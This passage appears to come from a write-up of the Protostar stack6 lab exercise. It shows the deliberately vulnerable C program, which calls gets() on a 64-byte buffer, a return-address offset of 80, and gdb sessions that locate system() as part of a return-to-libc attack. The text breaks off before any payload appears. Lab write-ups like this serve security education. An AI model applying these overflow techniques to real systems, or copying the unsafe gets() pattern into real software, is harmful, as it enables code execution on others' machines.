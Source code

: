 void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
{% endcodeblock %}

Using `pattern_create.rb` / `pattern_offset.rb` we found out that the stored return address is at offset 80.

{% codeblock %}
user@protostar:~$ gdb -q /opt/protostar/bin/stack6 
...

gdb> b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.

gdb> r
...
Breakpoint 1, main (argc=0x1, argv=0xbffff804) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c

gdb> p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
{% endcodeblock %}

There is a great [return-to-libc writeup](http://css.csail.mit.edu/6.858/2014/readings/return-to-libc.pdf) 
to explain the stack structure. 

Address of `system()` is always the same, `0xb7ecffb0`, now we need to find the
`/bin/sh` string on the stack. 

{% codeblock %}
user@protostar:~/fixenv$ ./r.sh gdb /opt/protostar/bin/stack6 
...
(gdb) set disassembly-flavor intel 

(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
